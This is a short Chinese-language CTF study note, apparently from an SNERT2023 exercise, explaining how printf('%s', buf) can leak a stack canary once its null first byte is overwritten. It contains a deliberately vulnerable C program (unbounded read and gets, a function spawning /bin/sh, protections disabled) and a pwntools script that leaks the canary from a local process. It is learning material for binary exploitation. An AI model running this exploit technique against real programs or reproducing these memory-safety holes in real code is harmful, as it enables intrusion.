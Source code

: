 题目特征：

```c
printf("%s", buf);
```

因为首字节必然是  **0x00**，并且printf("%s", buf) 遇 **'\0'**   \x00 才停止输出的特点，只要把canary首位的 **'\x00'** 覆盖成其他内容，就可以输出处于 **buf** 参数后的内存数据

![image-20230707233748050](.\SNERT2023\image-20230707233748050.png)

输出：

```
a * 10
```



![image-20230707234241955](.\SNERT2023\image-20230707234241955.png)

输出：

```python
a * 10 + '\n' + '\x11\x22\x33\x44\x55\x66\x77'
```

```c
// printf0.c
#include <stdio.h>


void aaa(){
	system("/bin/sh");
}

void bbb(){
	char buf[10];
	read(0, buf, 0x20);
	printf("%s", buf);
	gets(buf);
}

int main(){
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	bbb();
	
}
// gcc -m32 -Wno-stack-protector -no-pie -fno-pie -z execstack $1.c -o $1
```

```python
from pwn import *


context.log_level = 'debug'
context(arch='i386', os='linux')

p = process('printf0')
gdb.attach(p)
# p.recvuntil(b'name?\n')

payload = b'a' * 10
pause()
p.sendline(payload)
p.recv(11)

canary = u32(p.recv(3).rjust(4, b'\x00'))
print(hex(canary))
```